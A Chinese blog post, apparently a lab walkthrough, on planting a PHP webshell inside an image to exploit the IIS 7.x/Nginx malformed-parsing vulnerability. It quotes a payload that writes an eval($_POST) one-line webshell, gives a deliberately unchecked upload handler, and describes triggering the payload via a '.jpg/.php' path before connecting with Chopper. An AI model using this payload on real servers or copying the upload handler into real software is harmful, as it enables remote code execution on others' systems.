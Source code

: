 ```yaml
---
layout: post
title:  "PHP图片木马"
date:   2017-11-03 9:03:02 +0800
author: "Q九"
desc: "本测试主要针对的是 IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞 基于Windows系统的"

in_head: "<style> .article-content p{
  text-indent: 2em;
  line-height: 1.75rem;
}</style>"
---
```


# PHP图片木马 实现

*运行环境介绍*

**本测试主要针对的是 IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞**

> Nginx解析漏洞这个伟大的漏洞是我国安全组织80sec发现的
在默认Fast-CGI开启状况下,黑阔上传一个名字为wooyun.jpg，内容为

```
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>
```
>的文件，然后访问wooyun.jpg/.php,在这个目录下就会生成一句话木马 shell.php


**实验过程**

### 制作图片木马

**使用windows自带的 cmd 命令行进行图片木马的制作**

A.如下图所示:

![](/images/clipboard1.png)

 准备两个文件  一个 正常的图片文件  一个 一句话木马文件

B.如下图所示:
    
![]()

运行上图所写的命令 会把两个文件合成一个文件  如下图所示:

![]()

会看到文件大小 会变化

然后用记事本打开两个图片就会发现 图片内容发生改变如图

![]()

至此 一句话木马图片制造完毕！

### 接下来我们准备测试的代码 :

![]()

如图所示 我们准备一个 上传文件的表单  代码如下:

```html
<!doctype html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport"
          content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
<form action="./2.php" method="post" enctype="multipart/form-data">
    <input type="file" name="pic" id="">
    <button type="submit">上传</button>
</form>
</body>
</html>
```
   

再准备一个2.php 文件 用来处理上传图片,代码如下:

```php
<?php
$file = $_FILES['pic'];
move_uploaded_file($file['tmp_name'],__DIR__.'/1.jpg');
```


### 开始试验

OK! 开始运行代码,上传我们生成的图片木马,上传完毕以后 如下图所示:

![]()

然后我们直接在浏览器中访问图片1.jpg 会看到图片正常显示, 接下来 我们访问图片的时候  路径 如图所示 

![]()

就会发现 在当前文件夹中生成一个 shell.php内容如下 :

![]()

### 试验完毕

ok 剩下的就是上菜刀了！
